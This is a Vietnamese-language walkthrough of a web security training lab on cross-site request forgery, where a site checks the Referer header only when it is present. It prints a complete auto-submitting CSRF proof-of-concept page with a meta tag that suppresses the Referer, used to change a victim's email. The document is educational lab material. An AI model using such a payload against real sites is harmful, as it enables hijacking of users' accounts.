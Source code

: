 # Validation of Referer depends on header being present

Một số web app xác nhận Referer header khi nó xuất hiện trong requests nhưng bỏ qua việc xác thực nếu header bị bypass.

Trong tình huống này, kẻ tấn công có thể tạo ra khai thác CSRF của họ theo cách khiến trình duyệt của người dùng nạn nhân bỏ *Referer header* trong request. Có nhiều cách khác nhau để đạt được điều này, nhưng dễ nhất là sử dụng thẻ meta trong trang HTML lưu trữ cuộc tấn công CSRF:

    <meta name="referrer" content="never">

# Lab: CSRF where Referer validation depends on header being present
![img](https://imgur.com/EbUriFI.png)

###  Web page
![img](https://imgur.com/pqyHARc.png)

### Solution

Nhắc lại, để 1 cuộc tấn công CSRF trở nên khả thi: 

- A relevant action: change a users email

- Cookie-based session handling: session cookie

- No unpredictable request parameters.

Log in bằng account được cấp: 

![img](https://imgur.com/5D2pNIx.png)

Thử change email: 

![img](https://imgur.com/jIWQihC.png)

Send request change email tới repeater: 

![img](https://imgur.com/1kd2B26.png)

--> Nhận thấy web page đáp ứng đủ 3 điều kiện để bị tấn công CSRF.

Thử thay đổi domain trong Referer header và xem response: 

![img](https://imgur.com/LldqRh4.png)

--> Nhận được thông báo Invalid referer header.

Thử xóa cả Referer Header và xem response: 

![img](https://imgur.com/PeGmVJt.png)

--> Email vẫn được thay đổi.

Chỉnh sửa payload có sẵn: 

    <html>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
    <script>history.pushState('', '', '/')</script>
        <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="Test@Test.com" />
        <input type="submit" value="Submit request" />
        </form>
        <script>document.forms[0].submit();</script>
    </body>
    </html>

Thành: 

    <html>
    <head>
        <meta name="referrer" content="never">
    </head>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
    <script>history.pushState('', '', '/')</script>
        <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="Test@Test.com" />
        <input type="submit" value="Submit request" />
        </form>
        <script>document.forms[0].submit();</script>
    </body>
    </html>

Thêm thẻ meta sẽ hướng dẫn user agent không bao gồm Referer header và tất cả HTTP request có nguồn gốc từ domain gốc.

Go to exploit server và copy vào phần body: 

![img](https://imgur.com/ALMhYtB.png)

Store và View exploit: 

![img](https://imgur.com/OtfG8BY.png)

--> Email đã được thay đổi.

Thay đổi lại email trong payload và click Deliver exploit to victim.

Solved the lab!

![img](https://imgur.com/27FIsmz.png)

